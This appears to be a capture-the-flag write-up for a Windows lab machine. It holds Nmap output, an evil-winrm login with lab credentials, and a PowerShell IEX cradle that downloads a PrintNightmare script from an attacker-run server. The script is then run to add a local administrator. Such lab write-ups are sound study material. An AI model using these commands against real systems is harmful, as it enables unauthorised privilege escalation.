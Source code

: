 #Masscan - Nmap 
```
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h14m09s, deviation: 0s, median: 7h14m09s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-12T06:28:40
|_  start_date: 2021-10-11T22:46:25


SMB RELAY ATTACK
```

# Enumeration

using evil-winrm -i 10.10.11.106 -u tony -p liltony 

we got a shell as tony 
using upload /opt/<path2linumWin>
we noticed print spoolesv running 

so we can do print nightmare. 
/opt/windows/<printnightmare.

cd into printnightmare dir and set up a python server on any port. 
python3 -m http.server 8998

while you are loged into evil-winrm 

using this download method will inport the module atomatically, i tried to add it on my own and it gave scripts error. 


IEX(New-Object Net.Webclient).downloadstring('http://10.10.14.2:8998/CVE-2021-1675.ps1')

once you download the file..

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\temp\test\v> Invoke-Nightmare -NewUser "AnonHack3r" -NewPassword "PwndByAnonHack3r"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user AnonHack3r as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\temp\test\v> net user

# PrivEsc
  
  use evil winrm and log into AnonHack3r account 

  net user Anonhack3r 

  you are Admin. 

  
